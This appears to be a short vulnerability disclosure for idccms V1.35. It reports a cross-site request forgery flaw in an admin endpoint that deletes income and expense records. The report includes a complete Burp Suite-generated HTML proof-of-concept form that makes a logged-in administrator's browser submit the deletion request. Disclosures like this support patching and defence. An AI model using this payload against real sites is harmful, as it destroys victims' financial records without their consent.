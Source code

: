 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/moneyRecord_deal.php?mudi=delRecord

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/moneyRecord_deal.php?mudi=delRecord" method="POST">
      <input type="hidden" name="backURL" value="http%3A%2F%2F127.0.0.1%2Fadmin%2FmoneyRecord.php%3Fmudi%3DdelManage%26dataMode%3D%26dataModeStr%3D%26dataType%3D%26dataTypeCN%3D%25E8%25BF%259B%25E5%2587%25BA%25E8%25B4%25A6%25E8%25AE%25B0%25E5%25BD%2595%25E5%2588%25A0%25E9%2599%25A4%26dataType2%3D%26dataID%3D0%26menuID%3D611" />
			<input type="hidden" name="mudi" value="delManage" />
			<input type="hidden" name="dataTypeCN" value="%E8%BF%9B%E5%87%BA%E8%B4%A6%E8%AE%B0%E5%BD%95%E5%88%A0%E9%99%A4" />
			<input type="hidden" name="dataType" value="" />
			<input type="hidden" name="refDate" value="2024-03-12" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
